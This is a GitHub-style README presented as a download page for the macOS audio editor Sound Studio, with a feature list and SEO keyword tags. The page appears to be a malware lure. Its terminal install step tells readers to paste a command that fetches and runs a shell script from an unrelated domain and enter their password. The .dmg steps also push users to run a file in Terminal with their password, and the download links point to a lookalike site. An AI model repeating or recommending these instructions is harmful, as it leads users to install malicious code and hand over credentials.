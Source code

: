 # 🎧 Sound Studio — Professional Audio Recording & Editing for macOS

**Sound Studio** is a full-featured audio recording and editing application for macOS, offering a clean interface and powerful tools for music production, podcasting, voice-over work, and general sound editing. Whether you're recording vocals, editing multi-track sessions, or mastering a final mix, Sound Studio delivers precision and ease-of-use for Mac users.

From musicians to content creators, Sound Studio is trusted by audio professionals and hobbyists alike to handle everything from quick edits to complex soundscapes.

---

## ✅ Download Sound Studio for macOS  
[![Download Sound Studio](https://img.shields.io/badge/Download-Sound_Studio-darkblue)](https://sound-studio-download-mac.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Sound Studio?

Sound Studio is an intuitive and robust macOS application that allows users to record, edit, and master digital audio. Designed by Felt Tip Inc., it provides waveform editing, audio effects, high-resolution recording, and support for a wide range of formats. Whether you're working with voice, instruments, or environmental audio, Sound Studio lets you fine-tune every detail.

It’s a great choice for podcasters, musicians, audiobook producers, educators, and anyone who needs a reliable, Mac-native audio tool.

---

## ✨ Features

- 🎙 Record high-quality audio from any input device  
- 🎚 Multi-track editing and waveform manipulation  
- 🔊 Apply built-in effects like EQ, reverb, pitch shift, and more  
- 💽 Export in a wide range of formats including MP3, AAC, AIFF, and WAV  
- 🧰 Non-destructive editing and real-time effect previews  
- 🎧 Perfect for podcasts, music, interviews, and voice-overs  
- ⚙️ Supports sample rates up to 192kHz and 24-bit audio  
- 🖥 macOS-optimized UI with full Apple Silicon support  

---

## 💡 Why Use Sound Studio?

- 🧑‍🎤 Ideal for musicians, podcasters, and voice artists  
- 🧠 Easy to use yet packed with professional-grade tools  
- 🎼 Great for both quick edits and detailed audio mastering  
- 🔊 Clean interface with real-time metering and monitoring  
- 📡 Trusted by creators and educators across macOS platforms  

---

[![Download Sound Studio](https://img.shields.io/badge/Download-Sound_Studio-darkblue)](https://sound-studio-download-mac.github.io/.github)

---

## 🖼 Preview

![Sound Studio Screenshot 1](https://www.felttip.com/ss/img/screenshot-1.png)  
![Sound Studio Screenshot 2](https://mac-cdn.softpedia.com/screenshots/sound-studio_8.jpg)

---

## 📌 Tags

audio recording studio near me, vocal booth, soundproof booth, sound booth, portable sound booth,  
recording booth, aeros loop studio, moog sound studio, portable recording booth, neumann ndh 20, vocaster,  
aeros looper, sound forge audio studio, m audio bx8, vocal booth portable, tlm 49, m audio bx5 d3,  
arturia audiofuse, m audio bx4, recording studio booth, sennheiser hd 200 pro, m audio bx8 d3,  
vocal recording booth, røde nt usb mini, song recording studio, m audio bx3,  
Sound Studio mac, Sound Studio mac download, Sound Studio download mac
